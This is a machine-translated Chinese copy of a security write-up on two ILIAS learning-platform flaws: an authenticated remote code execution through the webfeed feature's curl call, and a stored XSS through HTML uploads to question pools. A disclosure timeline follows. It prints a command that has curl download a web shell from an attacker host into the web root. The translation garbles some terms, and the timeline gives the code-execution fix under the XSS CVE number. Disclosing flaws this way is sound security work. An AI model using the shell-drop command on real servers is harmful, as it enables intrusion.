# 开发 ILIAS 学习管理系统

> 原文：<https://infosecwriteups.com/exploiting-ilias-learning-management-system-4eda9e120620?source=collection_archive---------3----------------------->

![](img/7b9a4ba8cacbe1eccf9f97bf41cf2841.png)

在一个寂寞的周六晚上，我感到很无聊，所以我随便挑了一些申请看看。这个应用程序是 ILIAS 学习管理系统。

CVE-2020–25268-认证远程代码执行
CVE-2020–25267-认证存储跨站点脚本

# CVE-2020–25268

这是发现的最严重的漏洞，它将允许具有低权限的已验证用户获得代码执行。

导航到个人->概览后，ILIAS 允许您添加外部网络订阅源

![](img/6198989a845645d702346aeb225a2d1d.png)

当你发送一个请求时，它在你的服务器上看起来像这样

![](img/5fbc447b263108013aad224436a3901e.png)

嗯，我想知道 0.72 是多少。在对漏洞进行快速搜索后，它显示了一堆 XSS 漏洞，然而没有运气真正利用它们，因为 ILIAS html 渲染是正确安全的。

![](img/61e068c1ca270fc6ad7d1aba898b31a7.png)

深入研究一下源代码，我发现 magpie 使用的是一个名为 snoopy.class.inc 的库，其中 on _httpsrequest 函数通过 exec 调用 curl。我心想，该死的这个图书馆一定很古老(的确如此)。

查看第 656 行，您可以看到下面的代码

```
exec($this->curl_path.” -D \”/tmp/$headerfile\””.escapeshellcmd($cmdline_params).” “.escapeshellcmd($URI),$results,$return);
```

escapeshellcmd 将是很好的保护，如果你试图注入像“；whoamihostname”命令，但是它不能保护实际的二进制文件是否会被滥用。在这种情况下，curl 允许用一个命令远程获取文件。

卷发[https://maliciousactor.com/shell.php](https://maliciousactor.com/shell.php)-o/var/www/html/shell . PHP

因此，如果您以下面的方式运行该命令，您就可以在 web 服务器上上传您的恶意外壳。理想情况下，如果您知道允许写权限的路径。

![](img/da16fc4cdf36c8569e6a6bf6531d1cc8.png)

即使在 POC 中看不到“Add New Webfeed ”,此功能也可以工作，但是您必须知道/枚举 Cmdnode 参数。

[](https://github.com/ILIAS-eLearning/ILIAS/commit/fa10f165476c449efba6d8a3b5a55df77146e96a) [## 修复了错误# 28867 ILIAS-eLearning/ILIAS @ fa10f 16

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/ILIAS-eLearning/ILIAS/commit/fa10f165476c449efba6d8a3b5a55df77146e96a) 

在 ILIAS 上执行认证代码

# CVE-2020 年至 25267 年

这是一个低优先级类型的漏洞，允许攻击者存储 XSS，但是要真正利用这一点，您需要中级权限来创建问题池。

问题池允许文件上传，但是有适当的限制，不允许任何 PHP 和其他类型的文件。经过仔细观察，我注意到您可以为文件添加 HTML 扩展名。

![](img/4bbb535eb72cefca15e67e2584951f05.png)

之后，您需要运行池，上传包含有效负载的 html 文件，并在预览中打开它。

![](img/4858a0b5aa9fa23beac9a389a0496837.png)

[https://www.youtube.com/watch?v=wI5UlOXunl0&feature = youtu . be](https://www.youtube.com/watch?v=wI5UlOXunl0&feature=youtu.be)

# 顶部的樱桃——未经认证的反射 XSS

这个漏洞最初不是由我发现的，所以我不会因此而居功，但是有时做一个简单的谷歌搜索仍然会返回有效的和可利用的漏洞

[https://www.openbugbounty.org/reports/70516/](https://www.openbugbounty.org/reports/70516/)

# 披露时间表

2020 年 6 月 9 日—报告了该问题

2020 年 10 月 9 日—为修复而创建的票证

17/09/2020—代码执行漏洞已解决(CVE-2020–25267)，并已验证为已修复

2020 年 10 月 23 日—发布了包含修复程序的 ILIAS 6.5 和 5.4.18